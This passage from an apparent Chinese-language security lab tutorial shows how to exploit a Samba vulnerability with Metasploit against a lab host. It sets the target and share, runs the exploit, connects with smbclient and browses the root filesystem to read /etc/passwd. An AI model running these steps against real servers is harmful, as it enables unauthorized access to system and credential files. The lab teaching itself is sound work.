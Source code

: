 

输入命令，设置必要参数：

```
# 设置攻击主机

set RHOST 192.168.122.102

# 选择共享目录

set SMBSHARE tmp

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480573418642.png-wm)

注意：再次提醒一下，Samba 的该漏洞危害是能够为选定的 Unix 目录（包括所有子目录）创建网络共享。

## 四、漏洞攻击

在各项参数设定完成之后，我们进行漏洞攻击：

```
# 进行漏洞攻击，samba 的该漏洞是创建网络共享

exploit 
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480573539217.png-wm)

其中如下信息，表示进入成功：

```
[*] 192.168.122.102:445 - Now access the following share to browse the root filesystem:

```
在成功之后，输入退出命令 `exit`，我们在终端中进行测试是否能够利用 `smbclient `进行连接，在连接之后，会出现输入密码，无需输入，按回车键即可：

```
exit 

smbclient //192.168.122.102/tmp
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480573933783.png-wm)

```
cd rootfs

cd etc

more passwd

```
即可看到 `/etc/passwd` 文件内容：
